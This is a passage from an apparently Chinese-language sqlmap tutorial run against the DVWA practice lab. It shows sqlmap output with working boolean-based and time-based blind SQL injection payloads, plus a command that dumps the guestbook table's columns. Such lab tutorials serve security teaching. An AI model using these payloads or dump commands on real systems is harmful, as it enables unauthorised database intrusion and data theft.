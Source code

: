 ```shell
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9836 FROM (SELECT(SLEEP(5)))hZle)&Submit=Submit
---
```

![image-20230530085400448](D:\Document\My_book\My_Books\钟全龙著\img\image-20230530085400448.png)

#### 查看字段内的信息

```shell
[ BlackArch ~ ]$ sqlmap -r /home/hacker/test2.txt -D dvwa -T guestbook -C name,coment,comment_id -dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.5#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 08:55:10 /2023-05-30/

[08:55:10] [INFO] parsing HTTP request from '/home/hacker/test2.txt'
[08:55:10] [INFO] resuming back-end DBMS 'mysql'
[08:55:10] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 8687=8687&Submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 9836 FROM (SELECT(SLEEP(5)))hZle)&Submit=Submit
---
```

结果如下：

![image-20230530085528409](D:\Document\My_book\My_Books\钟全龙著\img\image-20230530085528409.png)

---

### sqlmap的使用

![image-20230518160256010](D:\Document\My_book\My_Books\钟全龙著\img\image-20230518160256010.png)

点击这里进入
